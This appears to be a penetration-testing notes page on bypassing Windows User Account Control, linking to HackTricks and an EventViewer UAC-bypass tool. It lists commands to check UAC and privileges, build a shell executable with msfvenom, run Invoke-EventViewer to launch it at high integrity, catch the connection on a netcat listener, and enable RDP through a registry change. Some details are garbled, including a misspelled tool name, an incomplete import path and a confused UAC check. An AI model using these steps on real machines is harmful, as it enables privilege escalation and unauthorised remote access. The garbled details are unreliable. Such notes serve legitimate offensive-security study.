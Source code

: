 # UAC Bypass

{% embed url="https://book.hacktricks.wiki/en/windows-hardening/authentication-credentials-uac-and-efs/uac-user-account-control.html" %}

whoami/local admin? > Medium IL > UAC Bypass > High IL

Check UAC:&#x20;

{% code overflow="wrap" %}
```
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\
```
{% endcode %}

*   If EnableUA is 0\*1 this means there is UAC.



Check privs:

```powershell
whoami /priv
```

* if you are in admin group and have medium integrity level then UAC is there.

{% embed url="https://github.com/CsEnox/EventViewer-UACBypass/blob/main/README.md" %}

Run UAC bypass:

1. create shell.exe with msfveon
2. import module

```
Import-Module ./
```

3. run bypass

```
Invoke-EventViewer C:\Windows\temp\shell.exe
```

4. Check netcat listener for connection

***

can try enabling RDP:

{% code overflow="wrap" %}
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
{% endcode %}
